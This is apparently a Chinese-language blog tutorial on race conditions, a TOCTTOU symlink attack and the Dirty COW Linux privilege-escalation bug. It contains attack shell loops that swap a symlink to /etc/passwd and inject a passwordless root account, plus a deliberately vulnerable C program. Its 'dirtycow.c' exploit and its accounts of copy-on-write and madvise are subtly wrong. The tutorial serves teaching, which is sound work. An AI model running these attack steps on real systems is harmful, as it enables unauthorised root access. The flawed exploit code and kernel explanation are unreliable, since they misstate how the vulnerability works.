




手撕 Dirty-cow
===

本文尝试从竞态条件开始, 一步步深入, 最终完全理解著名的**脏牛漏洞**。

### 竞态条件漏洞

先来复习一下什么是竞态条件漏洞, 这一点在操作系统课程中其实讲过多次:

竞态条件漏洞发生于多个进程**并发执行**并**共享资源**, 并且最终运行结果依赖于这几个进程的**精确执行时序**时。

#### 典型例子: 银行转账问题

举一个典型的例子, 假设张三的银行账户里有 1000 元存款, 现在要去一台 ATM 机取款, ATM 执行如下逻辑:

> - 1) 校验: 检查余额是否足够 1000 元, 如果不足, 则直接弹出;
>
> - 2) 取款: 如果余额足够, 则令扣除 1000 元余额, 并取出 1000 元现金;

显然没有问题, 张三能顺利把钱取走。

现在把 ATM 增加到两台: 张三在 ATM `A` 取款, 他的朋友李四在 ATM `B` 使用相同的账户取款:

- 如果张三和李四的其中一人先完成了取款操作, 则显然另一人的取款操作会失败, 因为此时 ATM 中已经没有余额。

- 那如果张三和李四在**完全相同的时刻**发出了提款请求呢?

此时两台机器可能会在**相同的时刻**完成了 "校验", 然后同时发起**取款**流程, 也就是说, 两台机器可能会同时取款成功, 张三和李四用一个 1000 元存款的银行账户取出了 2000 元现金。

```Mermaid
flowchart TD
    Start(同时开始) --> A1
    Start --> B1

    subgraph ATM A[张三操作]
        A1[校验余额] -->|同时读取\n余额=1000| A2[判定通过]
        A2 --> A3[扣除1000元]
        A3 --> A4[吐出1000元现金]
        A4 --> A5[成功结束]
    end

    subgraph ATM B[李四操作]
        B1[校验余额] -->|同时读取\n余额=1000| B2[判定通过]
        B2 --> B3[扣除1000元]
        B3 --> B4[吐出1000元现金]
        B4 --> B5[成功结束]
    end

    A3 & B3 --> C[最终余额 = 1000 - 1000 - 1000 = -1000]
```

这就是一个简单的典型竞态条件漏洞。

#### 锁

最简单的防止竞态条件漏洞发生的手段就是**锁机制**。如果张三, 李四中任意一人在进入的一瞬间, ATM 直接锁定当前账户的写操作, 知道其中一人操作完毕, 那么这种漏洞就不会出现。具体实现方式涉及信号量, 互斥锁等概念, 这里不展开讨论;

锁其实是一种以性能和用户体验换取安全性的策略, 因此锁不能被滥用, 否则可能会造成**死锁**, 也就是多进程循环等待, 操作永远不能继续进行; 锁的结构也在不断优化, 例如数据库会用到读写锁, 这是一种比互斥锁效率更高的锁结构, 这里也不展开。可以在 SQL server 的用户手册里查到。

总之, 锁就像红绿灯一样, 道路需要红绿灯, 但道路不需要每十米就有一个红绿灯。什么时候需要锁, 需要多大规模的锁, 具体需要什么样的机制, 都是开发者需要考量的因素, 因此才会不可避免地留下一些空子给攻击者。



### TOCTTOU

在现实的 Linux 系统中, 竞态条件漏洞常用来完成系统提权。通常来说, 这类漏洞需要一个**特权程序** (可以以 root 身份运行, 在这里有提权总结: [Linux 提权 (PrivEsca) 1 : 枚举和典型例子](https://r4x.top/2025/05/14/privesca/)), 例如这个程序:

#### 可能的漏洞程序

```c
// vulp.c
#include <stdio.h>
#include <unistd.h>
int main() {
    // 目标文件路径
    char *fn = "/tmp/config.ini";  
    
    char buffer[60];
    FILE *fp;

    // 用户输入要追加的内容
    scanf("%50s", buffer);  

    // 检查写权限 
    if (!access(fn, W_OK)) {    
        // 打开文件
        fp = fopen(fn, "a+");   
        // 写入内容
        fwrite(buffer, 1, strlen(buffer), fp); 
        fclose(fp);
    } else {
        printf("无权限！\n");
    }
    return 0;
}
```

这个 c 文件的作用本身是编写一个 `.ini` 配置文件, 但是它具有 root 身份运行的功能, 这是一个非常明显的攻击面。

实际上这个程序会从上到下执行 `main()` 函数: 其中, 在 `access()` (检查权限) 和 `fopen()` (打开文件) 这期间存在一个微小的时间窗口。可以利用这个非常小的时间窗口, 打开一个软连接将这个文件掉包为其他文件; 由于这个文件是以 root 权限打开的, 掉包成任何文件都有权限编辑, 包括 `/etc/passwd` 文件。

#### 攻击步骤

1. 在 `/tmp` 或任意有写入权限的文件夹准备一个恶意文件, 例如:

```bash
# 创建普通文件, 随便塞点东西
touch /tmp/userfile    
echo "userfile" > /tmp/userfile

# 先让 config 指向这个文件
ln -s /tmp/userfile /tmp/config.ini   
```

2. 发动攻击, 启动两个并行的线程, 

-   线程 I : 一直切换软连接的目标

```bash
while true; do
  # 指向安全文件
  ln -sf /tmp/userfile /tmp/config.ini   

  # 指向敏感文件
  ln -sf /etc/passwd /tmp/config.ini      
done
```

> 注意: 当 `config.ini` 指向 `user` 无权读写的文件 (`passwd`) 时, 对  `config.ini` 做读写访问也会被拒绝, 但是更改链接目标仍然是可行的, 这也是这个攻击能成功的基础之一。

-   线程 II:  持续运行漏洞程序

```bash
while true; do
  # 往 passwd 里面写一个无密码的 root 账户 test
  echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp
done
```

通常来说这个过程会失败, 但是攻击者只需要在后台等待命中即可, 也就是线程 I 在检查后瞬间将 `/tmp/config.ini` 切换到 `/etc/passwd` 时, 系统就会创建一个有 root 权限的无密码账户 `test`, 自此提权完成。

---

#### 完整流程



### 脏牛漏洞 (Dirty-COW)

理解了竞态条件漏洞的本质之后, 再回到脏牛漏洞上 **(CVE-2016-5195, Dirty-COW)**, 首先要先了解几个 Linux 特性:

#### 写时复制 (COW)

由于**写保护**的存在, 当多个进程在共享一块物理内存时, Linux 系统会将这块内存标记为**只读**。

> 这很好理解, 操作系统有必要保证所有进程读到的内容是一致的。

当任一进程**尝试写入**该页面时，CPU 将触发**写保护异常**, 内核捕获这个异常, 然后**复制**新物理页并修改**进程页表**指向新页, 最后恢复进程写入。

> 注意, 写入的目标是原目标的拷贝, 而不是原目标本身。在写操作之前不存在物理复制以节省内存。

当所有读写操作全部结束之后, 拷贝的内存页才会覆盖原页。

#### 内存映射 - mmap() 调用

文件通过 **mmap () 系统调用** 映射到内存地址空间中:

```c
// 函数原型
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
```

---

> - `addr`: 可选, 为建议映射地址, 一般为 `NULL` (内核自动选择);
> - `length`: 必选, 为映射区域的字节长度, **必须是页大小的整数倍**;
> - `prot`: 必选, 内存保护标志位:
>   - `PROT_NONE`: `0x0`, 禁止任何访问, 一般用于占位;
>   - `PROT_READ`: `0x1`, 可读;
>   - `PROT_WRITE`: `0x2`, 可写;
>   - `PROT_EXEC`: `0x4`, 可执行;
>   -  可以组合出现, 例如 `PROT_READ | PROT_WRITE` 为可读写内存, 一般指堆分配; `PROT_READ | PROT_EXEC` 为可执行代码段, 如动态库加载;
> - `flags`: 必选, 决定映射行为:
>   - `MAP_SHARED`: 修改会同步到文件, 多进程可见;
>   - **`MAP_PRIVATE`: 写时复制(COW)私有映射, 修改不写回文件**;
>   - `MAP_ANONYMOUS`: 创建匿名映射 (不与文件关联), 内容初始化为 0;
>   - `MAP_FIXED`: 用 `addr` 强制指定地址 (注意: 可能覆写), 敏感写操作;
>   - `MAP_POPULATE`: 立即预读文件内容到内存;
>   - `MAP_LOCKED`: 锁定内存防止被换出到交换分区;
> - `fd`: 文件描述符, 匿名映射时为 `-1`;
> - `offset`: 内存偏移量, 必须是页大小的整数倍;

---

典型用法:

1. 文件映射

    读取配置文件:

```c
int fd = open("/etc/config.conf", O_RDONLY);
void *addr = mmap(NULL, 4096, PROT_READ, MAP_PRIVATE, fd, 0);
// 现在可直接用 addr 读取文件内容，如 char *config = (char*)addr;
```

2. 匿名映射

    分配大内存块:

```c
void *mem = mmap(NULL, 1024 * 1024, 
                 PROT_READ | PROT_WRITE,
                 MAP_PRIVATE | MAP_ANONYMOUS, 
                 -1, 0);  // 分配1MB可读写内存
memset(mem, 0, 1024 * 1024);  // 初始化内存
```

3. 共享内存

    进程通信:

```c
// 进程A：创建共享内存
int fd = shm_open("/shm_region", O_CREAT | O_RDWR, 0666);
ftruncate(fd, 4096);  // 设置共享内存大小
void *ptr = mmap(NULL, 4096, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
sprintf(ptr, "Hello from PID=%d", getpid());

// 进程B：附加到同一共享内存
int fd = shm_open("/shm_region", O_RDWR, 0);
void *ptr = mmap(NULL, 4096, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
printf("Received: %s\n", (char*)ptr);
```

#### madvise() 系统调用

```c
#include <sys/mman.h>
int madvise(void *addr, size_t length, int advice);
```

> - `addr`: 内存起始地址 (与页对齐);
> - `length`: 内存区域长度 (向上取整到页大小);
> - `advice`: 内存使用建议 **(关键)**

将 `advice` 置为 `MADV_DONTNEED`, 这会让操作系统认为该虚拟页不再需要, 将 "标志位" `present` 置为 0 (操作系统基本知识点), 这个虚拟页与物理地址的映射就消失了, 可以理解为被永久丢弃, 下次取虚拟页会随机取一张新的。

#### 漏洞入口

编写一个 `dirtycow.c`:

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
int f;
struct stat st;

void *madviseThread(void *arg) {
    while(1) {
        madvise(map, 100, MADV_DONTNEED); // 关键漏洞触发点
    }
}

int main(int argc, char *argv[]) {
    // 1. 打开目标文件（只读权限）
    f = open("/etc/passwd", O_RDONLY);
    fstat(f, &st);
    
    // 2. 创建私有只读映射
    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
    
    // 3. 创建捣乱线程
    pthread_t pth;
    pthread_create(&pth, NULL, madviseThread, NULL);
    
    // 4. 主线程尝试写入
    char *position = strstr(map, "root:"); // 查找root条目
    while(1) {
        // 尝试修改root密码字段
        position[5] = 'X'; // 触发COW
    }
}
```

#### 提权步骤

初始状态:

```Mermaid
graph LR
    A[磁盘 /etc/passwd] --> B[页缓存]
    B --> C[进程虚拟内存]
    C -->|mmap MAP_PRIVATE| D[只读访问]
```

正常流程:



脏牛漏洞:



光看图比较抽象, 其实脏牛漏洞的核心就在于, 同时启动大量线程, 一部分用于写操作, 另一部分用于 `admvise()` 不断 "丢弃" 虚拟页(消除虚拟页到物理地址的映射), 在微观上这些线程的步调一定是不一的。

直到其中某一时刻, 当一个线程刚刚完成内存复制 (COW), 并将要开始写操作时, 另一个线程正好完成了 "丢弃" 虚拟页的操作, 那么页表将重新指向原始的映射的内存物理块, 漏洞利用也就完成了: 对只读块进行了写操作。

### 总结

脏牛漏洞（`CVE-2016-5195`）是Linux内核中一个潜伏长达9年的高危竞态条件漏洞。它并非依赖代码注入，而是精巧地利用了操作系统底层的写时复制（COW）机制和内存管理子系统的设计缺陷。攻击者通过操纵madvise(MADV_DONTNEED)系统调用，在纳秒级的竞态窗口中破坏正常的COW流程，诱使内核错误地将只读文件映射的物理页标记为可写，从而实现对受保护系统文件（如/etc/passwd）的非法修改并完成权限提升。
此漏洞暴露了底层系统机制对开发者的“透明性”风险。学习这个漏洞, 对高并发场景下的线程管理也会有所启示。